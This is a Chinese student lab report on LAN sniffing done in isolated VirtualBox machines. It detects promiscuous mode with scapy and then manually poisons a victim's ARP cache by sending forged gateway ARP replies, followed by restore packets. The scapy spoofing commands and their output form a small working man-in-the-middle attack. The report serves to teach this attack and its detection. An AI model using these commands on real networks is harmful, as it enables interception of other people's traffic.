 [toc]

# CHAP0x04 局域网主动监听实验
## 实验目的
- 掌握网络监听原理
- 掌握网络监听工具
- 掌握网络监听的检测和防范
## 实验环境
- VirtualBox 6.1 虚拟机
![虚拟机](./img/vb.png)
- 网关（Gateway）：`Debian Buster`
- 攻击者主机（Attacker）：`Kali Rolling 2109.2`
- 靶机（Victim）：`Kali Rolling 2109.2`
    ![网络拓扑图](./img/exp-vb-layout.png)

    |  身份 |名称|  IP地址 |  MAC地址 |
    |  ----  | ----  |----  |----  |
    |  网关（Gateway） | Gateway-Debian  | 172.16.111.1/24  |  08:00:27:53:e0:03 |
    |  攻击者主机（Attacker） |  Attacker-Kali | 172.16.111.148/24  | 08:00:27:24:e9:f9  |
    |  靶机（Victim） | Victim-Kali  |  172.16.111.112/24 |  08:00:27:f4:99:ae |
    |  靶机（Victim） | Victim-WinXP  |  172.16.111.126/24 |  08:00:27:66:71:85 |
## 实验要求
- [x] 实验一：检测局域网中的异常终端
- [x] 实验二：手工单步“毒化”目标主机的 `ARP` 缓存
- [x] 实验三（可选）：使用自动化工具完成 `ARP` 投毒劫持实验
- [x] 实验四（可选）：基于 `scapy` 编写 `ARP` 投毒劫持工具
## 实验准备
1. 按照网络拓扑图，配置虚拟机网卡，配置实验环境
![ip\mac](./img/ip&mac.png)
2. 在攻击者主机`Attacker-Kali`上安装好 `scapy`（Kali自带可不安装）
    ```bash
    # 安装 python3
    sudo apt update && sudo apt install python3 python3-pip

    # 安装 scrapy
    pip3 install scapy[complete]
    ```
## 实验过程
### 实验一：检测局域网中的异常终端
1. 在受害者主机上查看网卡的「混杂模式」是否启用
    ```bash
    # 在受害者主机上检查
    ┌──(kali㉿kali)-[~]
    └─$ ip link show eth0                
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:f4:99:ae brd ff:ff:ff:ff:ff:ff
    ```
2. 在攻击者主机上开启`scapy`并执行代码
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo scapy                                                                            1 ⚙
    INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().

                         aSPY//YASa       
                 apyyyyCY//////////YCa       |
                sY//////YSpcs  scpCY//Pp     | Welcome to   Scapy
     ayp ayyyyyyySCP//Pp           syY//C    | Version 2.4.4
     AYAsAYYYYYYYY///Ps              cY//S   |
             pCCCCY//p          cSSps y//Y   | https://github.com/secdev/scapy
             SPPPP///a          pP///AC//Y   |
                  A//A            cyP////C   | Have fun!
                  p///Ac            sC///a   |
                  P////YCpc           A//A   | To craft a packet, you have to be a
           scccccp///pSP///p          p//Y   | packet, and learn how to swim in
          sY/////////y  caa           S//P   | the wires and in the waves.
           cayCyayP//Ya              pY/Ya   |        -- Jean-Claude Van Damme
            sY/PsY////YCc          aC//Yp    |
             sc  sccaCY//PCypaapyCP//YSs  
                      spCPY//////YPSps    
                           ccaacs         
                                           using IPython 7.20.0
    >>> pkt = promiscping("172.16.111.112")
    Begin emission:
    Finished sending 1 packets.

    Received 0 packets, got 0 answers, remaining 1 packets

    ```
3. 回到受害者主机上开启网卡的『混杂模式』并查看网卡状态
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo ip link set eth0 promisc on 
                                                                                
    ┌──(kali㉿kali)-[~]
    └─$ ip link show eth0               
    2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:f4:99:ae brd ff:ff:ff:ff:ff:ff
    ```
4. 回到攻击者主机上的 `scapy` 交互式终端继续执行命令
    ```bash
    >>> pkt = promiscping("172.16.111.112")
    Begin emission:
    Finished sending 1 packets.
    *
    Received 1 packets, got 1 answers, remaining 0 packets
    08:00:27:f4:99:ae PcsCompu 172.16.111.112
    ```
5. 在受害者主机上手动关闭该网卡的『混杂模式』
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo ip link set eth0 promisc off
                                                                                              
    ┌──(kali㉿kali)-[~]
    └─$ ip link show eth0                
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:f4:99:ae brd ff:ff:ff:ff:ff:ff
    ```
6. 比较总结
![混杂模式对比](./img/promisc.png)
    *promiscping : Send ARP who-has requests to determine which hosts are in promiscuous mode*
    **对比：**
    受害者开启混杂模式后，攻击者多收到了一个`answer`数据包
    **混杂模式：**
    一般情况下，网卡往往只会接收目的地址是它的数据包而不会接收目的地址不是它的数据包。

    **混杂模式就是接收所有经过网卡的数据包，包括不是发给本机的包**。默认情况下，网卡只把发给本机的包（包括广播包）传递给上层程序，其他的包一律丢弃。

    混杂模式就是指网卡能接受所有通过它的数据流，无论是什么模式、什么地址的。当网卡处于这种“混杂”模式时，它对所有遇到的每一个数据帧都产生一个硬件中断，以提醒操作系统处理流经该物理媒体上的每一个报文包。

### 实验二：手工单步“毒化”目标主机的 `ARP` 缓存
1. 在攻击者主机上的`scapy`交互式终端完成
    ```bash
    >>> arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
    >>> arpbroadcast.show()
    ###[ Ethernet ]### 
    #dst= ff:ff:ff:ff:ff:ff
    #src= 08:00:27:24:e9:f9
    #type= ARP
    ###[ ARP ]### 
        # hwtype= 0x1
        # ptype= IPv4
        # hwlen= None
        # plen= None
        # op= who-has
        # hwsrc= 08:00:27:24:e9:f9
        # psrc= 172.16.111.148
        # hwdst= 00:00:00:00:00:00
        # pdst= 172.16.111.1

    >>> recved = srp(arpbroadcast, timeout=2)
    Begin emission:
    Finished sending 1 packets.
    *
    Received 1 packets, got 1 answers, remaining 0 packets
    >>> gw_mac = recved[0][0][1].hwsrc
    >>> gw_mac
    '08:00:27:53:e0:03'
    >>> arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.126", hwdst="08:00:27:24:e9:f9")
    >>> sendp(arpspoofed)
    .
    Sent 1 packets.
    ```
    ![scapy命令](./img/scapy.png)
2. 在受害者主机查看`ARP`缓存
![伪造成功](./img/arp伪造.png)
3. 在攻击者主机执行命令，恢复`ARP`缓存
    ```bash
    >>> restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:53:e0:03", pdst="172.16.111.126", hwdst=
    ...: "08:00:27:66:71:85")
    >>> sendp(restorepkt1, count=100, inter=0.2)
    ....................................................................................................
    Sent 100 packets.
    ```
4. 在受害者主机查看`ARP`缓存
![恢复成功](./img/arp恢复.png)
### 实验三（可选）：使用自动化工具完成 `ARP` 投毒劫持实验
### 实验四（可选）：基于 `scapy` 编写 `ARP` 投毒劫持工具
## 问题及解决
1. `scapy`执行命令`pkt = promiscping("172.16.111.112")`时报错
原因：报错为`permission denied`说明是权限不足
解决：启动`scapy`时升级权限`sudo scapy`
2. 执行`pkt = promiscping("xxx")`时，开不开混杂模式没有区别，两次输出一样结果
原因：`ip地址`写错了，不是`Attacker-Kali`的地址
解决：写对`ip地址`...
3. `arpspoofed=ARP(xxx)`伪造网关的`ARP`响应包时不成功，受害者`ARP`没有改变
原因：没有用以太网封装
解决：命令改为`rpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.126", hwdst="08:00:27:24:e9:f9")`
## 参考资料
[1] [18信安前辈的实验报告](https://github.com/CUCCS/2020-ns-public-kate123wong/tree/chap0x04/chap0x04)
[2] [在线教材-第四章 网络监听实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
[3] [混杂模式介绍_实践求真知-CSDN博客_混杂模式](https://blog.csdn.net/chengqiuming/article/details/89603272)
[4] [Scapy常用操作和命令(1)_Han的小站-CSDN博客](https://blog.csdn.net/qwertyupoiuytr/article/details/54670641)
